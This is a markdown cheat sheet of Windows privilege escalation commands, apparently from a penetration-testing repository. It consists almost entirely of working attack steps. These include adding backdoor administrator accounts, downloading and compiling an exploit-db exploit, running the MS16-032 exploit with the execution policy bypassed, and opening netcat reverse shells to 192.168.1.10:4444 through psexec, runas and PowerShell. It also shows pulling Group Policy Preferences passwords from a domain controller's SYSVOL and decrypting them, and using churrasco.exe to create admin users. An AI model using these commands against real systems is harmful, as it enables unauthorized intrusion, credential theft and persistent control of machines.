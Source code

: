 # Useful Command for Windows Privilage Escalation


Windows Privilege Escalation resource http://www.fuzzysecurity.com/tutorials/16.html

## User Add and Admin Group Add

```
net user hacker hacker /add 
net localgroup administrators IWAM_BOB /add
```

***

* **Python Complier exe**

```
 pip install pyinstaller
 wget -O exploit.py http://www.exploit-db.com/download/31853  
 python pyinstaller.py --onefile exploit.py
```

* **Powershell exploit run in cmd**

```
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```

* **Windows Run As**

1 - Sysinternal psexec

```
C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
```

2 - runas.exe

```
C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 Enter the password for Test:
```

3 - Powershell 

```
$username = '<username here>'
$password = '<password here>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public
 ```

To start:

```
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```

* **Windows Service Configuration Viewver:**

```
 scsiaccess.exe  
 NT AUTHORITY\SYSTEM:(I)(F)  
 BUILTIN\Administrators:(I)(F)  
 BUILTIN\Users:(I)(RX)  
 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
 Everyone:(I)(F)
```

* **Group Policy Preferences**

```
#map the Domain controller SYSVOL share

net use z:\\dc01\SYSVOL

#Find the GPP file: Groups.xml

dir /s Groups.xml

#Review the contents for passwords

type Groups.xml

#Decrypt using GPP Decrypt

gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB
```

* **Windows Server 2003**

```
upload /root/Desktop/test/churrasco.exe C:\\Inetpub\\
shell
churrasco.exe “net user emr Password1 /add”
churrasco.exe “net localgroup Administrator emr /add”
```
